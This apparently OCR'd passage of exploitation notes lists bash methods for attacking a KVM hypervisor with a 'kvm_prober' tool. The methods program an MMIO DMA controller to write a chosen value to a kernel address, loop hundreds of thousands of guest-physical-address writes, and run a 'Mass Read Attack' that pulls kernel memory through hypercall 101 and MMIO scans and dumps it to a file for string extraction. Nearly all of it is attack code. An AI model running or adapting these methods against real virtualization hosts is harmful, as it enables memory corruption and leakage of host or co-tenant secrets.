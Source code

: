 #### Method 2: MMIO DMA Controller
```bash
# Configure DMA
kvm_prober writemmio_buf 0xfe800000 $(printf '%016x' 0xffffffff826279a8)  # Dest addr
kvm_prober writemmio_buf 0xfe800008 deadbeef41424344                       # Value
kvm_prober writemmio_buf 0xfe800010 0001869f                               # Count (100k)
kvm_prober writemmio_buf 0xfe800018 00000001                               # Trigger

# Check status
kvm_prober readmmio_buf 0xfe80001c 4
```

#### Method 3: GPA Remapping
```bash
#!/bin/bash
GUEST_OFFSET=0x64279a8
VALUE=deadbeef41424344

for ((i=0; i<250000; i++)); do
    kvm_prober writegpa $GUEST_OFFSET $VALUE
    [ $((i % 10000)) -eq 0 ] && echo "Progress: $i writes"
done
```

### Objective C: Mass Read Attack

#### Method 1: Hypercall Read Loop (HC 101)
```bash
#!/bin/bash
TARGET=0xffffffff82b5ee10
SHARED_GPA=$(kvm_prober get_shared_gpa | grep -oP '0x[0-9a-f]+')
OUTPUT_FILE=read_samples.hex

for ((i=0; i<100000; i++)); do
    # Hypercall 101: READ(src, dest_gpa, size)
    kvm_prober hypercall 101 $TARGET $SHARED_GPA 64 0
    
    # Save sample
    kvm_prober read_shared 64 >> $OUTPUT_FILE
    
    [ $((i % 10000)) -eq 0 ] && echo "Progress: $i reads"
done

# Analyze
cat $OUTPUT_FILE | xxd -r -p | strings | head -20
```

#### Method 2: MMIO Scan
```bash
GUEST_OFFSET=0x695ee10

for ((i=0; i<100000; i++)); do
    kvm_prober readmmio_buf $GUEST_OFFSET 64 >> read_samples.hex
done
```
